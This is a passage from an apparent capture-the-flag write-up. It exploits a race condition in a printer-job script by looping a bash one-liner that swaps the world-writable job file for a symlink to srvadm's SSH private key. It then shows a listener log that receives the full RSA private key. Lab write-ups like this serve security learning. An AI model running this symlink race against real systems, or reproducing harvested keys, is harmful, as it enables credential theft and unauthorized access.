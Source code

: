 In short, the code does the following:

1. Creates a file named with the current time, like `2020-04-26_00:55:45` for example.

2. It writes to the file the contents submitted on the print job form

3. It opens a network socket to the remote printer and writes the content of the printer job

The race condition vulnerability here is the `sleep(0.5)` delay that was added. Because the print job file is modifiable by anyone (chmod 0777), it's possible to swap the file by a symlink before the rest of the code reads the content. In other words, we can read or write any file as user `srvadm`.

To abuse the file read and get the private key for `srvadm`, we can do it this way:

- Loop and check if a file exists with the current time
- If the file exists, delete it and replace it with a symlink to the SSH private key for srvadm

```bash
while true ; do N=`date +%Y-%m-%d_%H:%M:%S` ; if [[ -r $N ]] ; then rm -f $N ; ln -s /home/srvadm/.ssh/id_rsa $N ; fi ; done
```

The printer job will the send the private key to us instead of print job we submitted.

```
listening on [any] 9100 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.186] 58348
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
1L2WOskWoyZzGqb8r94gN9TXW8TRlz7hMqq2jfWBgGm3YVzMKYSYsWi6dVYTlVGY
DLNb/88agUQGR8cANRis/2ckWK+GiyTo5pgZacnSN/61p1Ctv0IC/zCOI5p9CKnd
whOvbmjzNvh/b0eXbYQ/Rp5ryLuSJLZ1aPrtK+LCnqjKK0hwH8gKkdZk/d3Ofq4i
hRiQlakwPlsHy2am1O+smg0214HMyQQdn7lE9QIDAQABAoIBAG2zSKQkvxgjdeiI
ok/kcR5ns1wApagfHEFHxAxo8vFaN/m5QlQRa4H4lI/7y00mizi5CzFC3oVYtbum
Y5FXwagzZntxZegWQ9xb9Uy+X8sr6yIIGM5El75iroETpYhjvoFBSuedeOpwcaR+
DlritBg8rFKLQFrR0ysZqVKaLMmRxPutqvhd1vOZDO4R/8ZMKggFnPC03AkgXkp3
j8+ktSPW6THykwGnHXY/vkMAS2H3dBhmecA/Ks6V8h5htvybhDLuUMd++K6Fqo/B
H14kq+y0Vfjs37vcNR5G7E+7hNw3zv5N8uchP23TZn2MynsujZ3TwbwOV5pw/CxO
9nb7BSECgYEA5hMD4QRo35OwM/LCu5XCJjGardhHn83OIPUEmVePJ1SGCam6oxvc
bAA5n83ERMXpDmE4I7y3CNrd9DS/uUae9q4CN/5gjEcc9Z1E81U64v7+H8VK3rue
F6PinFsdov50tWJbxSYr0dIktSuUUPZrR+in5SOzP77kxZL4QtRE710CgYEAz+It
T/TMzWbl+9uLAyanQObr5gD1UmG5fdYcutTB+8JOXGKFDIyY+oVMwoU1jzk7KUtw
8MzyuG8D1icVysRXHU8btn5t1l51RXu0HsBmJ9LaySWFRbNt9bc7FErajJr8Dakj
b4gu9IKHcGchN2akH3KZ6lz/ayIAxFtadrTMinkCgYEAxpZzKq6btx/LX4uS+kdx
pXX7hULBz/XcjiXvKkyhi9kxOPX/2voZcD9hfcYmOxZ466iOxIoHkuUX38oIEuwa
GeJol9xBidN386kj8sUGZxiiUNoCne5jrxQObddX5XCtXELh43HnMNyqQpazFo8c
Wp0/DlGaTtN+s+r/zu9Z8SECgYEAtfvuZvyK/ZWC6AS9oTiJWovNH0DfggsC82Ip
LHVsjBUBvGaSyvWaRlXDaNZsmMElRXVBncwM/+BPn33/2c4f5QyH2i67wNpYF0e/
2tvbkilIVqZ+ERKOxHhvQ8hzontbBCp5Vv4E/Q/3uTLPJUy5iL4ud7iJ8SOHQF4o
x5pnJSECgYEA4gk6oVOHMVtxrXh3ASZyQIn6VKO+cIXHj72RAsFAD/98intvVsA3
+DvKZu+NeroPtaI7NZv6muiaK7ZZgGcp4zEHRwxM+xQvxJpd3YzaKWZbCIPDDT/u
NJx1AkN7Gr9v4WjccrSk1hitPE1w6cmBNStwaQWD+KUUEeWYUAx20RA=
-----END RSA PRIVATE KEY-----
```
